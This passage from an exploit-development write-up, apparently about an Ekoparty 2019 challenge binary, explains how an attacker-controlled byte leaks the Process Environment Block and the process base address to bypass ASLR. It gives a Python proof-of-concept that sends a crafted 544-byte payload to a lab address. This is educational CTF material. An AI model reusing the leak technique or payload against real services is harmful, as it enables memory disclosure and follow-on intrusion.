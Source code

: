 As you can see from the image below, when we hit the move operation and we have got the correct instruction in place.

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_38.png" alt="">

RAX now contains the value of PEB!

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_38a.png" alt="">

In addition, our remote client has been able to save the PEB into a variable, which means we can always dynamically resolve this value. Note that this value will always change after the application (process) is restarted.

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_39.png" alt="">

What is most devastating about identifying the PEB of eko2019.exe, is that the base address for the current process (eko2019.exe in this case) is located at an offset of PEB+0x10

<img src="{{ site.url }}{{ site.baseurl }}/images/BSF_40.png" alt="">

Essentially, all we have to do is use our ability to control RCX to load the value of PEB+0x10 into it. At that point, the application will extract that value into RAX (what PEB+0x10 points to). The data PEB+0x10 points to is the actual base virtual address for eko2019.exe! This value will then be returned to the client, via RAX. This will be done with a second request! Note that this time we do not need to access the GS segment register (in the second request). If you can recall, before we accessed the GS segment register, the program naturally executed a `mov rax, qword ptr[rcx]` instruction. To ensure this is the instruction executed this time, we will use our byte we control to implement a NOP - to slide into the intended instruction.

As mentioned earlier, we will close our first connection to the client, and then make a second request! This update to the exploit development process is outlined in the updated proof of concept.

```python
import sys
import os
import socket
import struct
import time

# Defining sleep shorthand
sleep = time.sleep

# 16 total bytes
print "[+] Sending the header..."
exploit = "\x45\x6B\x6F\x32\x30\x31\x39\x00" + "\x90"*8

# 512 bytes + 16 byte header = 528 total bytes

# 512 byte offset to the byte we control
exploit += "\x41" * 512

# The GS segment register gives us access to the PEB at an offset of 0x60
exploit += "\x65"

# \x60 will be moved in gs:[rcx] (\x41's are padding)
exploit += "\x41\x41\x41\x41\x41\x41\x41\x60"

# Must be a multiple of 8 - so null bytes to compensate for the other 7 bytes
exploit += "\x00\x00\x00\x00\x00\x00\x00"

# Message needs to be 528 bytes total
exploit += "\x41" * (544-len(exploit))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.132", 54321))
s.sendall(exploit)
```